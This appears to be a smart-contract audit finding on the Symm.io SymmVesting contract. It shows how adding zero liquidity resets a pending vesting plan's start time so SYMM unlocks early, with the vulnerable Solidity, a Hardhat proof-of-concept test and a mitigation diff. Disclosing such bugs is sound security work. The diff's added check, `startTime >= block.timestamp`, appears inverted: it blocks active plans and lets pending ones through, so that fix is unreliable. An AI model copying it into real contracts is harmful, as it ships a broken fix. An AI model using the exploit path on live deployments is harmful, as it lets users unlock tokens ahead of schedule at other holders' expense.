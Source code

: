 Attractive Cornflower Coyote

Medium

# Vesting start time can be manipulated to unlock early

### Summary

There are no checks to prevent liquidity addition with pending vesting plans, so the user can add zero liquidity and reset the vesting plan, resulting in early unlock of SYMM and unexpected frontrun.

### Root Cause

In `SymmVesting.sol:142`, liquidity addition requires the reset of SYMM vesting plan the user has in any status.

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/vesting/SymmVesting.sol#L124-L162

```solidity
	function _addLiquidityProcess(
		uint256 amount,
		uint256 minLpAmount,
		uint256 maxUsdcIn
	) internal returns (uint256[] memory amountsIn, uint256 lpAmount) {
		// Claim any unlocked SYMM tokens first.
		_claimUnlockedToken(SYMM, msg.sender);

		VestingPlan storage symmVestingPlan = vestingPlans[SYMM][msg.sender];
		uint256 symmLockedAmount = symmVestingPlan.lockedAmount();
		if (symmLockedAmount < amount) revert InvalidAmount();

		_ensureSufficientBalance(SYMM, amount);

		// Add liquidity to the pool.
		(amountsIn, lpAmount) = _addLiquidity(amount, minLpAmount, maxUsdcIn);

		// Update SYMM vesting plan by reducing the locked amount.
@>		symmVestingPlan.resetAmount(symmLockedAmount - amountsIn[0]);

		// Claim any unlocked SYMM LP tokens.
		_claimUnlockedToken(SYMM_LP, msg.sender);

		VestingPlan storage lpVestingPlan = vestingPlans[SYMM_LP][msg.sender];

		address[] memory users = new address[](1);
		users[0] = msg.sender;
		uint256[] memory amounts = new uint256[](1);
		amounts[0] = lpVestingPlan.lockedAmount() + lpAmount;

		// Increase the locked amount by the received LP tokens.
		if (lpVestingPlan.isSetup()) {
			_resetVestingPlans(SYMM_LP, users, amounts);
		} else {
			_setupVestingPlans(SYMM_LP, block.timestamp, symmVestingPlan.endTime, users, amounts);
		}

		emit LiquidityAdded(msg.sender, amountsIn[0], amountsIn[1], lpAmount);
	}
```

When `resetAmount` is called, the start time will be reset to current timestamp.

```solidity
	function resetAmount(VestingPlan storage self, uint256 amount) public returns (VestingPlan storage) {
		if (claimable(self) != 0) revert ShouldClaimFirst();
		if (!isSetup(self)) revert ShouldSetupFirst();
		// Rebase the vesting plan from now.
		uint256 remaining = remainingDuration(self);
		if (remaining == 0) revert PlanIsFinished();
@>		self.startTime = block.timestamp;
		self.endTime = block.timestamp + remaining;
		self.amount = amount;
		self.claimedAmount = 0;
		return self;
	}
```

Therefore, if the pending vesting plan is reset, the start time (unlock time) will be ahead of schedule.

### Internal Pre-conditions

There is a time gap between when the vesting plan is set and when it is started.

### External Pre-conditions

None

### Attack Path

1.  The user has a SYMM vesting plan to start some time from now.
2.  The user adds zero liquidity by inputting zero values.
3.  The user resets his vesting plan to start from now.
4.  The use unlocks SYMM early than others.

### Impact

The unlock of SYMM is ahead of schedule, which may enforce pressure on price. The longer the period between when the vesting plan is set and when it is started, the greater impact will be.

### PoC

```typescript
import { loadFixture, time } from "@nomicfoundation/hardhat-network-helpers";
import { expect } from "chai"
import { Signer } from "ethers"
import { ethers } from "hardhat"
import { Symmio, SymmVesting, VestingPlanOps__factory } from "../typechain-types";
import { e } from "../utils"
import { initializeFixture, RunContext } from "./Initialize.fixture";

export function poc() {
	let symmVesting: SymmVesting
	let symmToken: Symmio
	let admin: Signer, user1: Signer
	let context: RunContext
	let VestingPlanOps: VestingPlanOps__factory
    let startTime: number
    let endTime: number

	beforeEach(async () => {
		context = await loadFixture(initializeFixture)
		symmVesting = await context.vesting
		VestingPlanOps = await ethers.getContractFactory("VestingPlanOps")

		admin = context.signers.admin
		user1 = context.signers.user1

		const TokenFactory = await ethers.getContractFactory("Symmio")
		symmToken = TokenFactory.attach("0x800822d361335b4d5F352Dac293cA4128b5B605f") as Symmio

		const vestingPlanOps = await VestingPlanOps.deploy()
		await vestingPlanOps.waitForDeployment()

		// Setup SYMM vesting plan
		const users = [await user1.getAddress()]
		const amounts = [e("1000")]
		startTime = await time.latest() + 24 * 60 * 60 // 1 day later
		endTime = startTime + 9 * 30 * 24 * 60 * 60 // 9 months later

		await symmVesting.connect(admin).setupVestingPlans(await symmToken.getAddress(), startTime, endTime, users, amounts)
        
        // plan should start 1 day later
        const planBefore = await symmVesting.vestingPlans(await symmToken.getAddress(), await user1.getAddress())
        await expect(planBefore.startTime).to.be.eq(startTime)
	})

    it("can manipulate start time to unlock early", async () => {
        // add 0 liquidity to reset SYMM plan
        const symmAmount = 0
        const minLpAmount = 0
        const user1UsdcAmount = 0
        await symmVesting.connect(user1).addLiquidity(symmAmount, minLpAmount, user1UsdcAmount)

        // SYMM plan start now in advance
        const planAfter = await symmVesting.vestingPlans(await symmToken.getAddress(), await user1.getAddress())
        await expect(planAfter.startTime).to.be.eq(await time.latest())
        await expect(planAfter.startTime).to.be.lt(startTime)
    })
}
```

### Mitigation

Introduce a check to prevent liquidity addtion with a pending vesting plan.

```diff
function _addLiquidityProcess(
	uint256 amount,
	uint256 minLpAmount,
	uint256 maxUsdcIn
) internal returns (uint256[] memory amountsIn, uint256 lpAmount) {
	// Claim any unlocked SYMM tokens first.
	_claimUnlockedToken(SYMM, msg.sender);

	VestingPlan storage symmVestingPlan = vestingPlans[SYMM][msg.sender];
+       require(symmVestingPlan.startTime >= block.timestamp);
	uint256 symmLockedAmount = symmVestingPlan.lockedAmount();
	if (symmLockedAmount < amount) revert InvalidAmount();

	_ensureSufficientBalance(SYMM, amount);

	// Add liquidity to the pool.
	(amountsIn, lpAmount) = _addLiquidity(amount, minLpAmount, maxUsdcIn);

	// Update SYMM vesting plan by reducing the locked amount.
	symmVestingPlan.resetAmount(symmLockedAmount - amountsIn[0]);

	// Claim any unlocked SYMM LP tokens.
	_claimUnlockedToken(SYMM_LP, msg.sender);

	VestingPlan storage lpVestingPlan = vestingPlans[SYMM_LP][msg.sender];

	address[] memory users = new address[](1);
	users[0] = msg.sender;
	uint256[] memory amounts = new uint256[](1);
	amounts[0] = lpVestingPlan.lockedAmount() + lpAmount;

	// Increase the locked amount by the received LP tokens.
	if (lpVestingPlan.isSetup()) {
		_resetVestingPlans(SYMM_LP, users, amounts);
	} else {
		_setupVestingPlans(SYMM_LP, block.timestamp, symmVestingPlan.endTime, users, amounts);
	}

	emit LiquidityAdded(msg.sender, amountsIn[0], amountsIn[1], lpAmount);
}
```